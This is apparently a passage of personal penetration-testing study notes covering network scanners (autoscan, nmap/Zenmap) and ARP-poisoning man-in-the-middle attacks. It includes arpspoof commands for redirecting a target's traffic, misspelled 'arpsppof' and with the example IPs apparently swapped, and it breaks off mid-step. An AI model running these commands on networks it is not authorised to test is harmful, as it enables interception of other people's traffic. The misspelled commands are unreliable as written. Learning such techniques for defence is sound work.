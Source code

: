 #### autoscan

* download from: http://autoscan-network.com/download
* v. 1.50 has a bug, download 1.42
* 

##### Installation

```bash
# add support for 32bit applications
dpkg --add-architecture i386
apt-get update
apt-get install libc6:i386

# install the downloaded package
./autoscan-network-1.42-Linux-x86-Install
```



#### nmap (Network mapper)

* `Zenmap` : GUI Application for nmap
  * Run `quick scan` for basic details
  * Run `quick scan plus` for more advanced info
  * With `services` tab results can be filtered by service



### MITM

#### ARP Poisoning/Spoofing

Redirect traffic to flow through our device.

It takes advance of some ARP security issues:

* Each ARP request/response is trusted
* Clients accept response even if they did not send any request



##### arpspoof

1. Tell the target client that I am the router

    ```bash
    arpsppof -i [INTERFACE] -t [TARGET-IP] [AP-IP]
    
    # example
    arpsppof -i wlan0 -t 192.168.1.1 192.168.1.69
    ```

   

2. Tell the AP that I am the target client

    ```bash
    arpsppof -i [INTERFACE] -t [AP-IP] [TARGET-IP]
    